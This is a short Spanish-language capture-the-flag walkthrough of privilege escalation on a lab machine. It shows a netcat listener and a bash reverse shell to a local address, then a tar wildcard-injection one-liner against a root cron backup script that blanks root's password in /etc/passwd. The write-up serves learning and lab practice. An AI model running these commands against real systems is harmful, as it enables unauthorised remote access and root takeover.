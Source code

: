# Escalada De Privilegios

### Luigi

Para tener una shell cómoda, nos pondremos a la escucha con netcat en el puerto 443:

```css
sudo nc -nlvp 443
```

y ejecutaremos lo siguiente en la máquina:

```css
echo 'bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"' | bash
```

luego de recibir la shell realizamos un tratamiento de la tty.

Luego de revisar un rato, encuentro una tarea cron que ejecuta un script que crea un backup de la home de luigi:

```css
luigi@f66ddfb13d6e:/$ cat /usr/local/bin/backup.sh 
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *
luigi@f66ddfb13d6e:/$ 
```

viendo el script, busco como escalar y veo que puedo escalar con un ["Wildcards with tar"](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa).

Para esto, primero debemos buscar como escalar con tar:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

de este comando solo nos interesa lo siguiente:

```css
--checkpoint=1 --checkpoint-action=exec=/bin/sh
```

luego crearemos tres archivos en la home de luigi, uno llamado "--checkpoint=1", otro llamado "--checkpoint-action=exec=sh script.sh" y finalmente uno llamado script.sh que ejecute algo que nos permita escalar a root.

En mi caso, este es el oneliner que creé el cual hace todo esto:

```css
cd /home/luigi/ && echo "sed -i 's/root:x:/root::/g' /etc/passwd" > script.sh && chmod +x script.sh && echo "" > --checkpoint=1 && echo "" > '--checkpoint-action=exec=sh script.sh' && sleep 30 && su
```

### Root

![Root](images/subversion/root.png)

Gracias por leer ;)